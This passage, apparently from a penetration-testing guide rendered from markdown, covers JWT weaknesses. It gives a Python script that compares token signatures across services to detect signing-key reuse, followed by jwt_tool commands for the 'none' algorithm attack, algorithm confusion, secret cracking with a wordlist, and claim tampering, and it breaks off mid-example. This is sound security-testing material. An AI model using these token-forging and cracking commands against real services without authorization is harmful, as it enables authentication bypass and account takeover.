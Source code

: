        
       # List of services to check
       services = [
           {"name": "Service A", "url": "https://service-a.example.com/api/login", "creds": {"username": "test", "password": "test123"}},
           {"name": "Service B", "url": "https://service-b.example.com/api/login", "creds": {"username": "test", "password": "test123"}},
           {"name": "Service C", "url": "https://service-c.example.com/api/login", "creds": {"username": "test", "password": "test123"}}
       ]
       
       # Get tokens from each service
       tokens = {}
       for service in services:
           response = requests.post(service["url"], json=service["creds"])
           if response.status_code == 200:
               token = response.json().get("token")
               if token:
                   tokens[service["name"]] = token
                   print(f"Got token from {service['name']}")
       
       # Check for signature reuse
       signatures = {}
       for service_name, token in tokens.items():
           parts = token.split('.')
           if len(parts) == 3:
               signatures[service_name] = parts[2]
       
       # Compare signatures
       for name1, sig1 in signatures.items():
           for name2, sig2 in signatures.items():
               if name1 != name2 and sig1 == sig2:
                   print(f"ALERT: Signature reuse detected between {name1} and {name2}")
                   print(f"This indicates the same key is being used to sign tokens for both services")
       ```

  - **Automated JWT attacks**
    1. **Using JWT_Tool for automated testing**:
       - Step 1: Install JWT_Tool: `git clone https://github.com/ticarpi/jwt_tool`
       - Step 2: Capture a valid JWT token
       - Step 3: Run JWT_Tool's mode all tests: `python3 jwt_tool.py -M at -t "https://api.example.com" -rh "Authorization: Bearer <token>"`
       - Step 4: Review findings for vulnerabilities
       - Step 5: Exploit discovered vulnerabilities with specialized modes
       - Common JWT_Tool commands:
         - Decode token: `python3 jwt_tool.py <token>`
         - Check signature: `python3 jwt_tool.py -V -S <token>`
         - Test "none" vulnerability: `python3 jwt_tool.py -X a <token>`
         - Test for algorithm confusion: `python3 jwt_tool.py -X k -pk public.pem <token>`
         - Crack secret: `python3 jwt_tool.py -C -d wordlist.txt <token>`
       - Additional useful parameters:
         - `-T`: Tamper with the token (modify claims)
         - `-I`: Inject a new claim
         - `-S`: Sign with a key
         - `-R`: Check for token expiry
       - Example workflow:
       ```bash
       # Decode and analyze the token